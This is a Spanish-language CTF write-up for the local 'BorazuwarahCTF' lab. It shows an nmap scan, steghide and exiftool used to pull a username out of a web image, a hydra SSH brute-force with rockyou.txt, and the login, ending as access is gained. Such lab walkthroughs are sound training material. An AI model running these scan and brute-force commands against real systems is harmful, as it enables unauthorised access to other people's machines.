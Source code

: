 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

![[Pasted image 20240917192325.png]]

Nos vamos a la página web y nos sale :
![[Pasted image 20240917193213.png]]

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![[Pasted image 20240917193813.png]]

```
cat secreto.txt
```


![[Pasted image 20240917193842.png]]


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![[Pasted image 20240917194039.png]]

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240917194231.png]]

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20240917194342.png]]

Y ya estamos adentro. 
